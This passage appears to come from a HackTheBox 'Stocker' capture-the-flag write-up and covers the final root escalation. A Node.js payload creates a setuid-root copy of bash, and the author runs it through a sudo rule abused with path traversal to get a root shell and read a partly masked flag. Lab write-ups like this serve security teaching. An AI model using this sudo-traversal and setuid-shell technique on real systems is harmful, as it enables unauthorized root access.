     
    
    require('child_process').exec('cp /bin/bash /tmp/0xdf; chown root:root /tmp/0xdf; chmod 4777 /tmp/0xdf')
    

Now I run that with `sudo`:

    
    
    angoose@stocker:~$ sudo node /usr/local/scripts/../../../dev/shm/0xdf.js 
    angoose@stocker:~$ ls -l /tmp/0xdf 
    -rwsrwxrwx 1 root root 1183448 Jun 12 16:56 /tmp/0xdf
    

`/tmp/0xdf` is there, owned by root, and has the `s` in the owner execute
field.

I’ll run it with `-p` to keep privs, and get a shell as root:

    
    
    angoose@stocker:~$ /tmp/0xdf  -p
    0xdf-5.0#
    

And the root flag:

    
    
    0xdf-5.0# cat root.txt
    c779fc97************************
    

[](/2023/06/24/htb-stocker.html)

